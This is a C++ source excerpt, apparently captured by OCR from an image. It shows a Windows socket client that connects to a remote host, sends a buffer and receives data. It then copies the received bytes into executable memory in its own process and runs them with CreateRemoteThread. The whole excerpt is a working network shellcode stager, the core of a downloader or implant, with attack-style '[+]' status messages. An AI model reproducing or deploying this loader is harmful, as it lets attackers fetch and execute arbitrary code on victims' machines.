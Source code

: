 ```cpp

    for (ptr = result; ptr!= NULL; ptr = ptr->ai_next) {
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return;
        }

        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return;
    }

    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    iResult = shutdown(ConnectSocket, SD_SEND);
       if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return;
    }

    do {
        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
            printf("[+] Received %d Bytes\n", iResult);
        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());

        HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());
        PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof recvbuf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(processHandle, remoteBuffer, recvbuf, sizeof recvbuf, NULL);
        HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
        WaitForSingleObject(remoteThread, INFINITE);
        CloseHandle(remoteThread);
        VirtualFreeEx(processHandle, remoteBuffer, 0, MEM_RELEASE);
```